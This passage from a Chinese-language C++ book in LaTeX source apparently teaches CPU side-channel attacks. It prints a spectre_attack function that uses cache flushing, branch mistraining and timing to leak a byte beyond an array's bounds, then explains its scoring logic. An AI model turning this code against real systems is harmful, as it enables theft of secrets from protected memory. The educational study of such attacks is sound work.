 下面的函数攻击数据数组外的单个字节:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

对于计时数组中的每个元素，我们将计算一个分数，即该元素访问速度最快的次数。还跟踪速度第二快的元素，它应该是常规的、访问较慢的数组元素之一。我们在多次迭代中一直这样做:理想情况下，会得到我们预期的结果，但在实际中，在某些时候必须放弃。

当最佳和次最佳的分数之间差距够大，我们就知道已经检测到了计时数组中的快速元素，即由秘密字节的值索引的元素(尽管我们可以尝试使用迄今为止最好的猜测，如果到了最大迭代次数，而没有得到期望的结果，攻击就失败了)。

有两个工具函数可用来计算延迟的平均分数，并找出两个最佳分数;只要能给出正确的结果，就可以以任何方式实现它们。第一个函数计算平均延迟，并增加延时低于平均值的计时元素的分数(必须通过实验调整，但不是很敏感)。注意，我们希望一个数组元素的访问速度更快，所以可以在计算平均延迟时跳过(理想情况下，一个元素的延迟要比其他元素低得多，而其他元素的延迟都相同):

